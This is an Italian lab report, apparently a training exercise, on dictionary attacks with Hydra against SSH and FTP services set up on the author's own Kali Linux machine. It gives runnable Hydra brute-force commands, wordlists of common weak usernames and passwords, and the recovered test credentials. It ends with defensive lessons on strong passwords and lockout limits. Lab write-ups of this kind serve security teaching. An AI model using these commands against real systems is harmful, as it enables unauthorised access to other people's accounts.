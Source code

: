 # Relazione sull'Attacco di Dizionario con Hydra su SSH e FTP

Questa relazione documenta le fasi principali del lavoro svolto per simulare un attacco di dizionario su due diversi servizi di rete (SSH e FTP) utilizzando lo strumento Hydra.

---

## **Obiettivi**
1. Configurare i servizi SSH e FTP su un ambiente Kali Linux.
2. Creare liste di username e password per simulare un attacco a dizionario.
3. Utilizzare Hydra per eseguire attacchi di brute force contro i servizi configurati.
4. Verificare l'efficacia delle tecniche e riflettere sull'importanza della sicurezza delle credenziali.

---

## **Fasi dell'Esercizio**

### **1. Attacco di Dizionario su SSH**
#### **Configurazione del Servizio SSH**
1. Creazione di un nuovo utente per il test:
   ```bash
   sudo adduser test_users
   ```
   Password configurata: `testpass`.

2. Attivazione del servizio SSH:
   ```bash
   sudo service ssh start
   ```

3. Verifica dell'accesso SSH con il nuovo utente:
   ```bash
   ssh test_users@192.168.50.100
   ```
   La connessione al servizio SSH è stata verificata con successo.

#### **Creazione delle Liste**
- Lista di username (`username.txt`):
  ```
  test_users
  admin
  root
  user1
  guest
  operator
  support
  manager
  developer
  service
  backup
  tester
  account
  superuser
  sysadmin
  ```
- Lista di password (`password.txt`):
  ```
  password
  123456
  admin123
  testpass
  qwerty
  letmein
  password1
  welcome
  12345678
  changeme
  root123
  toor
  iloveyou
  securepass
  password123
  ```

#### **Comando per Creare Liste**
- Creazione della lista di password utilizzando il comando:
  ```bash
  echo -e "password\n123456\nadmin123\ntestpass\nqwerty\nletmein\npassword1\nwelcome\n12345678\nchangeme\nroot123\ntoor\niloveyou\nsecurepass\npassword123" > password.txt
  ```
  **Spiegazione del comando:**
  - `echo -e`: Permette di interpretare i caratteri speciali come `\n` per andare a capo.
  - Ogni stringa separata da `\n` rappresenta una nuova riga nel file.
  - `>`: Reindirizza l'output al file `password.txt`.
  - Questo comando genera un file di testo contenente le password da utilizzare nell'attacco a dizionario.

#### **Attacco con Hydra**
Comando utilizzato:
```bash
hydra -L username.txt -P password.txt 192.168.50.100 -t 2 -V ssh
```
**Spiegazione del comando:**
- `-L username.txt`: Specifica il file contenente la lista di username.
- `-P password.txt`: Specifica il file contenente la lista di password.
- `192.168.50.100`: Indica l'indirizzo IP del target.
- `-t 2`: Imposta due thread per velocizzare l'attacco.
- `-V`: Mostra i tentativi effettuati in tempo reale.
- `ssh`: Specifica il servizio da attaccare.

**Risultati:**
- Hydra ha trovato le credenziali valide:
  ```
  Username: test_users
  Password: testpass
  ```

### **2. Attacco di Dizionario su FTP**
#### **Configurazione del Servizio FTP**
1. Installazione del servizio FTP:
   ```bash
   sudo apt-get install vsftpd
   ```

2. Attivazione del servizio FTP:
   ```bash
   sudo service vsftpd start
   ```

3. Creazione di un nuovo utente FTP:
   ```bash
   sudo adduser ftp_user
   ```
   Password configurata: `ftp_pass`.

4. Modifica del file di configurazione FTP (`/etc/vsftpd.conf`) per garantire che l'utente possa accedere.

#### **Creazione delle Liste**
- Creazione della lista di username:
  ```bash
  echo -e "ftp_user\nadmin\nroot\nguest\nuser1" > ftp_usernames.txt
  ```
  **Spiegazione del comando:**
  - `echo -e`: Permette di interpretare i caratteri speciali come `\n` per andare a capo.
  - Ogni stringa separata da `\n` rappresenta una nuova riga nel file.
  - `>`: Reindirizza l'output al file `ftp_usernames.txt`.
  - Questo comando genera un file di testo contenente i nomi utente da utilizzare nell'attacco a dizionario.

- Creazione della lista di password:
  ```bash
  echo -e "123456\npassword\nftp_pass\nadmin123\nwelcome" > ftp_passwords.txt
  ```
  **Spiegazione del comando:**
  - `echo -e`: Permette di interpretare i caratteri speciali come `\n` per andare a capo.
  - Ogni stringa separata da `\n` rappresenta una nuova riga nel file.
  - `>`: Reindirizza l'output al file `ftp_passwords.txt`.
  - Questo comando genera un file di testo contenente le password da utilizzare nell'attacco a dizionario.

#### **Attacco con Hydra**
Comando utilizzato:
```bash
hydra -L ftp_usernames.txt -P ftp_passwords.txt 127.0.0.1 -t 1 -V ftp
```
**Spiegazione del comando:**
- `-L ftp_usernames.txt`: Specifica il file contenente la lista di username.
- `-P ftp_passwords.txt`: Specifica il file contenente la lista di password.
- `127.0.0.1`: Indica il server FTP in locale.
- `-t 1`: Utilizza un singolo thread per l'attacco.
- `-V`: Mostra in tempo reale i tentativi effettuati.
- `ftp`: Specifica il servizio da attaccare.

**Risultati:**
- Hydra ha trovato le credenziali valide:
  ```
  Username: ftp_user
  Password: ftp_pass
  ```

---

## **Conclusioni**
1. **Efficienza di Hydra:** Lo strumento ha dimostrato di essere efficace nell'identificare credenziali valide in un ambiente controllato.
2. **Importanza delle credenziali sicure:** L'uso di username e password deboli facilita gli attacchi a dizionario e brute force. Per prevenire tali attacchi:
   - Utilizzare password complesse.
   - Configurare limiti sui tentativi di accesso.
   - Implementare misure di blocco IP dopo tentativi falliti.
3. **Lezioni apprese:**
   - La configurazione corretta dei servizi è fondamentale per la sicurezza.
   - L'uso di strumenti come Hydra aiuta a comprendere le vulnerabilità dei sistemi di autenticazione.

---

**Nota:** Le simulazioni sono state effettuate in un ambiente di laboratorio controllato per scopi educativi e non devono essere utilizzate per scopi non etici.

